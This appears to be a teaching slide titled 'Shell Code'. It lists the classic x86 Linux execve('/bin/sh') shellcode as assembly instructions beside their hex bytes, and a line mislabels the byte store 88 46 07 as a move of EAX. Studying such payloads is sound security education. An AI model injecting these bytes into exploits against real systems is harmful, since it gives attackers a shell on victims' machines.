

# Shell Code
Assembly Codes		Hex Codes
JMP	1FH			EB, 1F
POP	ESI			5E
MOV	08H[ESI], ESI		89, 76, 08
XOR	EAX, EAX		31, C0
MOV	07H[ESI], EAX		88, 46, 07
MOV	0CH[ESI], EAX		89, 46, 0C
MOV	AL, 0BH		B0, 0B
MOV	EBX, ESI		89, F3
LEA	ECX, 08H[ESI]		8D, 4E, 08
LEA	EDX, 0CH[ESI]		8D, 56, 0C
INT	80H			CD, 80
XOR	EBX, EBX		31, DB
MOV	EAX, EBX		89, D8
INC 	EAX			40
INT	80H			CD, 80
CALL	-24H			E8, DC, FF, FF, FF
.STRING “/bin/sh”		2F, 62, 69, 6E, 2F, 73, 68, 00